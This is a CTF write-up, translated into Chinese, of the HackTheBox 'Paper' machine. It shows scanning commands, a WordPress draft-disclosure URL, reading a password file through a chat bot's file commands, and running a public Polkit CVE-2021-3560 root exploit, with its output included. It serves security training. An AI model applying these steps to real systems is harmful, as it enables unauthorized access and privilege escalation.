# HacktheBox 撰写:论文

> 原文：<https://infosecwriteups.com/hackthebox-writeup-paper-5a13adfcc549?source=collection_archive---------1----------------------->



这是一个由易到难的 Linux 机器，需要基本的扫描和枚举来在机器上获得立足点并获得用户标志。向 root 用户提升权限也是一个相对简单的过程，需要使用名为 CVE-2021–3560(即 Polkit)的 Linux 权限提升。

# 列举

我开始通过用 **NMAP** 执行快速扫描来枚举目标机器，以识别任何打开的端口:

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.11.143PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

扫描发现三个端口打开(即端口 22、80 和 443)。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用 NSE 脚本来查找我可以利用的任何常见漏洞:

```
nmap -sV -sC -Pn -v -oN nmap-report -p 22,80,443 10.10.11.143PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-07-03T08:52:34
| Not valid after:  2022-07-08T10:32:34
| MD5:   579a 92bd 803c ac47 d49c 5add e44e 4f84
|_SHA-1: 61a2 301f 9e5c 2603 a643 00b5 e5da 5fd5 c175 f3a9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

我看到端口 22 运行的是 SSH，而端口 80 和 443 是运行 Apache/2.4.37 (centos)的 web 服务器。我认为我有足够的信息继续前进，并开始检查托管在端口 80 上的网站。

# HTTP —端口 80 分析

导航到 *http://10.10.11.143/* ，我看到一个默认的 http 服务器测试页面。



HTTP 服务器测试页面。

接下来，我决定使用 **FFuF** 模糊隐藏的目录和网页。

```
ffuf -c -u [http://10.10.11.143/FUZZ](http://10.10.11.143/FUZZ) -w /usr/share/wordlists/dirb/common.txt -e .php,.bak,.oldcgi-bin/               [Status: 403, Size: 199, Words: 14, Lines: 8]
manual                 [Status: 301, Size: 235, Words: 14, Lines: 8]
```

我找到了一个名为“ *manual”的目录，并用*的 **FFuF** 模糊任何子目录。

```
ffuf -c -u [http://10.10.11.143/manual/FUZZ](http://10.10.11.143/manual/FUZZ) -w /usr/share/wordlists/dirb/common.txt -e .php,.bak,.olddeveloper        [Status: 301, Size: 245, Words: 14, Lines: 8]
faq              [Status: 301, Size: 239, Words: 14, Lines: 8]
howto            [Status: 301, Size: 241, Words: 14, Lines: 8]
images           [Status: 301, Size: 242, Words: 14, Lines: 8]
index.html       [Status: 200, Size: 9164, Words: 541, Lines: 125]
LICENSE          [Status: 200, Size: 11358, Words: 2516, Lines: 203]
misc             [Status: 301, Size: 240, Words: 14, Lines: 8]
mod              [Status: 301, Size: 239, Words: 14, Lines: 8]
programs         [Status: 301, Size: 244, Words: 14, Lines: 8]
ssl              [Status: 301, Size: 239, Words: 14, Lines: 8]
style            [Status: 301, Size: 241, Words: 14, Lines: 8]
```

我花了一些时间浏览这些目录，但我没有立即看到任何感兴趣的东西。我决定改变我的方法，使用**Nikto**web vulnerability scanner 收集更多信息。

```
nikto -h 10.10.11.143 -o nikto.txt+ Target Host: 10.10.11.143
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET Uncommon header 'x-backend-server' found, with contents: office.paper
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-powered-by header: PHP/7.2.24
+ OPTIONS Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE 
+ OSVDB-877: TRACE HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3092: GET /manual/: Web server manual found.
+ OSVDB-3268: GET /icons/: Directory indexing found.
+ OSVDB-3268: GET /manual/images/: Directory indexing found.
+ OSVDB-3233: GET /icons/README: Apache default file found.
```

查看上面的输出，Nikto 发现了一个有趣的 GET 请求头，它为后端服务器提供了一个名为"***office . paper****"*的主机名。

```
+ GET Uncommon header 'x-backend-server' found, with contents: office.paper
```

我将这个主机名添加到我的“ */etc/hosts* ”文件中，并访问了网站。


office.paper 网站。

# 最初的立足点

看着“***office . paper****网站，我可以看到一个叫“ *Prisonmike* ”的用户发的三个帖子。一个帖子有一个名为“ *nick* 的用户的评论，暗示**帖子草稿**中存储了秘密内容。*

**

*评论提到帖子草稿中的秘密内容。*

*我还可以看到网站是由 WordPress 提供支持的。我使用了 **wpscan** 来列举与网站正在使用的 WordPress 版本相关的用户和漏洞信息。*

```
*wpscan --url [http://office.paper/](http://office.paper/) -e u,ap*
```

*通过查看输出，我发现正在使用的 WordPress 版本存在漏洞，并找到了三个用户。*

**

*有漏洞的 WordPress 版本。*

**

*WordPress 用户发现。*

*搜索 WordPress 5 . 2 . 3 版本相关的漏洞，我发现了一个漏洞，允许 [**未经认证查看私人/草稿帖子**](https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2) 。用户 Nick 之前的评论暗示了草稿帖子中保存的秘密内容。我使用了网站上面链接中显示的概念验证示例。*

```
*http://office.paper/?static=1*
```

*这提供了一个帖子草稿，它提供了一个链接到一个名为“***chat . office . paper***”的新子域名。*

**

*帖子草稿包含有趣的链接。*

*我将这个子域添加到我的“ */etc/hosts* ”文件中，并跟随链接。这让我想到了 RocketChat，**一个开源的团队聊天客户端**，类似于 Slack 和 Mattermost 等其他团队聊天解决方案。我创建了一个帐户并登录。一旦登录，有一个名为 **general、**的频道，里面提到德怀特创造了一个名为 ***recyclops*** 的机器人。查看可以用 Bot 执行的操作，我可以看到它可以检索文件内容并列出文件夹的内容。*

**

*有趣的机器人动作。*

# *用户标志:命令注入*

*我与 recyclops 建立了一个单独的对话，并检查了“ *sale* ”目录中有哪些文件。*

**

*“销售”目录的内容。*

*接下来，我试图打印“ *portfolio.txt* ”文件的内容，但发现我还需要指定“ *sale* ”目录。*

**

*“portfolio.txt”文件的内容。*

*我可以看到用于查看“ *portfolio.txt* ”文件的完整路径。*

```
*/home/dwight/sales/sale/portfolio.txt*
```

*接下来，我决定列出其他文件夹的内容，包括文件夹“*德怀特*”。*

**

*用户“dwight”文件夹的内容。*

*我可以看到“ *user.txt* ”文件，但是我没有权限访问它。翻看其他文件，找到一个名为“ *hubot* ”的文件夹。在查看这个文件夹的内容时，我发现了一个名为“*的隐藏文件。env* ”。查看该文件的内容为用户“ *dwight* ”提供了密码。*

**

*用户“dwight”密码。*

*我使用凭证 SSH 到机器，并获得了用户**标志。***

**

*用户标志。*

# *根旗:CVE-2021–3560 波尔基特*

*查看用户“ *dwight* ”目录的内容，我发现了一个名为“ *poc.sh* ”的文件，该文件引用了一个名为 CVE-2021–3560 的 Linux 权限提升。根据这个 [Github](https://github.com/Almorabea/Polkit-exploit) :*

> *CVE-2021–3560 是 polkit 上的一个身份验证旁路，它允许非特权用户使用 DBus 调用特权方法，在此漏洞利用中，我们将调用 accountsservice 提供的 2 个特权方法(CreateUser 和 SetPassword)，这允许我们创建一个特权用户，然后为其设置密码，最后以创建的用户身份登录，然后提升为 root 用户。*

*我可以使用在这个 Github 上找到的[漏洞利用](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py),并将其从我的攻击机器上传到目标机器。然后，我就可以利用漏洞并获得 root 权限。*

```
*[dwight@paper ~]$ python3 CVE-2021-3560.py[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root[root@paper dwight]#*
```

*然后我可以检索根标志。*

**

*根标志。*

# *最后的想法*

*总的来说，我发现这台机器是枚举的好方法。它强调了使用不同的工具和方法进行计数的重要性，这是获得最初立足点的关键。一旦我找到了最初的妥协，剩下的就很简单了。谢谢你一直读到最后，祝你黑客快乐😄！*